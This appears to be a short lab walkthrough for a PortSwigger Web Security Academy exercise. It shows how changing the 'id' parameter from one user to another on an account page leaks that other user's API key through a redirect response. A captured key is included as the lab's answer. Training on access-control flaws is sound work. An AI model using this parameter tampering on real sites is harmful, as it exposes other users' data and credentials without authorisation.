 # Lab: User ID controlled by request parameter with data leakage in redirect 
# https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect
```bash
# Login as wiener and visit my account page.

# change id=wiener to id=carlos and visit that url.

https://0ae100af04abb37f825774d500f500c9.web-security-academy.net/my-account?id=carlos

```
```bash
# Open http history and check /my-account?id=carlos request.

# Response:

Your API Key is: 4X4ZBml3mI7gFvP3XY0Wz7NNoOClXn7t

# Paste API Key to submit solution.

```
